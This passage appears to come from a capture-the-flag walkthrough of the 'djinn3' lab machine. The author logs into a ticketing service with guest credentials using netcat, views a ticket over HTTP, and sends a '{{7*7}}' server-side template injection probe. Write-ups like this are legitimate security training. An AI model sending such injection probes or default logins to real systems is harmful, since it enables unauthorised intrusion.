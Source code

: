 ```
        update      Update the ticketing software
        open        Open a new ticket
        close       Close an existing ticket
        exit        Exit
    
> 

```
Let's open our own ticket and check the web page if it's listed there.

```
┌──(root💀kali)-[~/tryhackme/rooms/djinn3]
└─# nc 192.168.124.102 31337
username> guest
password> guest

> open
> Title: shawarma
Description: man
> 

┌──(root💀kali)-[~/tryhackme/rooms/djinn3]
└─# curl -s "http://192.168.124.102:5000/?id=3098"

        <html>
            <head>
            </head>

            <body>
                <h4>shawarma</h4>
                <br>
                <b>Status</b>: open
                <br>
                <b>ID</b>: 3098
                <br>
                <h4> Description: </h4>
                <br>
                man
            </body>
             <footer>
              <p><strong>Sorry for the bright page, we are working on some beautiful CSS</strong></p>
             </footer> 
        </html>
```

After some enumeration and looking for possible exploits I found out that the service is vulnerable to Server Side Template Injection [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection):
```
┌──(root💀kali)-[~/tryhackme/rooms/djinn3]
└─# nc 192.168.124.102 31337
username> guest
password> guest

> open
Title: idk    
Description: {{7*7}}
>                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/rooms/djinn3]
```